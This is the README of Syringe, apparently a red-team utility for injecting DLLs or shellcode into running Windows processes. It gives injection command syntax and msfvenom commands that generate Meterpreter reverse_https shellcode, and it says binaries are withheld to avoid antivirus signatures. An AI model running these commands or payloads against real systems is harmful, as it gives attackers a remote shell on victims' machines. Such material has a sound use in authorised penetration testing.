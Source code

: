 # Syringe

Syringe is a general purpose DLL and code injection utility for 32 and 64-bit
Windows. It is capable of executing raw shellcode as well as injecting
shellcode or a DLL directly into running processes.

## Compilation

Syringe is distributed in source code form only.  Compiled binary files are not available.  This was a conscious decision in order to prevent AV signatures from being developed.  As such, users will have to compile Syringe locally.  Syringe is meant to be compiled in Visual Studio 2013, other versions of VS, and other IDEs are not supported.  Syringe can be compiled by loading the provided project file (syringe.sln) with VS, specifying the desired architecture, and building.

## Usage

Syringe supports three options for injection (specified with "-1", "-2", or "-3").  The following examples assume the x86 version.

* DLL injection.
  * Using the "-1" option, Syringe can inject an arbitrary DLL into a process specified by a process ID.
  * Usage: `syringe.x86.exe -1 <DLL file> <PID>`
* Shellcode Injection
  * Using the "-2" option, Syringe can inject specifically formatted shellcode into a specified process.
  * Usage: `syringe.x86.exe -2 <shellcode> <PID>`
* Shellcode Injection Alternative
  * Using the "-3" option, Syringe can inject specifically formatted shellcode into itself (no PID necessary).
  * Usage: `syringe.x86.exe -3 <shellcode>`

For information on how to format shellcode for use with Syringe, see the following section.

## Formatting Shellcode

Syringe requires shellcode to be supplied in a base64 encoded format.  The following commands can be used on most \*nix systems (with [Metasploit](https://github.com/rapid7/metasploit-framework) installed) to generate the shellcode appropriately.  **Be sure to change the "LHOST", "LPORT" and "-p" options accordingly.**

* x86 shellcode
  * `sudo msfvenom -p windows/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`
* x64 shellcode
  * `sudo msfvenom -p windows/x64/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`

### License
Syringe is released under the BSD 3-clause license, for more details see the
[LICENSE](https://github.com/securestate/syringe/blob/master/LICENSE) file.
